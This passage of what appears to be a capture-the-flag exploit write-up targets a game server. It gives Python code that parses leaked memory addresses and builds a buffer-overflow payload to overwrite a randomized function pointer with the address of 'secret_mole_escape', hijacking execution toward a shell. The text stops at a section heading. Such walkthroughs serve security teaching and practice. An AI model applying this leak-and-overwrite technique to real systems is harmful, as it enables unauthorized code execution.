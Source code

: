```python
    leak_data = s.recv(1024).decode(errors="ignore")
    print("[*] Leaked data:")
    print(leak_data)
    return leak_data

def parse_leaks(leak_str):
    """
    Parse leaked addresses from the leak string.
    """
    # This regex finds all hexadecimal addresses.
    addresses = re.findall(r"0x[0-9a-fA-F]+", leak_str)
    # Convert to integers.
    addresses = [int(addr, 16) for addr in addresses if addr != "0x0"]
    return addresses
```

**4. Crafting the Overflow Payload**  

The server randomizes both the size of a vulnerable buffer (between 100 and 150 bytes) and the offset where a critical function pointer is stored (the offset is randomized to be between buffer + 4 and buffer + 20). The server then reads exactly that many bytes from the client, which gives an attacker the chance to overflow the buffer.

Our payload should have the following components:

The payload is composed of:
* A padding of candidate_offset bytes (e.g., all "A"s).
* An 8-byte overwrite containing the candidate pointer (packed using struct.pack("<Q", candidate_ptr)).
* Padding (if necessary) to match the exact number of bytes expected by the server.

The goal is to overwrite the stored function pointer with the leaked address of `secret_mole_escape` so we can exit the game and take over execution (e.g. leading to use of a user shell).

**To account for this**, we need to incorporate a way to `wait` for the next prompt (“Select a power-up (Speed/Strength):”) and send our crafted payload.

Our overflow can be controlled using the following code:

```python
def build_overflow_payload(offset, candidate_ptr):
    """
    Build the payload with:
    - offset bytes of filler
    - followed by the candidate pointer (8 bytes, little-endian)
    """
    padding = b"A" * offset
    payload_ptr = struct.pack("<Q", candidate_ptr)
    payload = padding + payload_ptr
    # Ensure payload is exactly (offset + 8) bytes.
    payload = payload.ljust(offset + 8, b"B")
    return payload
```

**5. Conditional Function Pointer Hijack**  

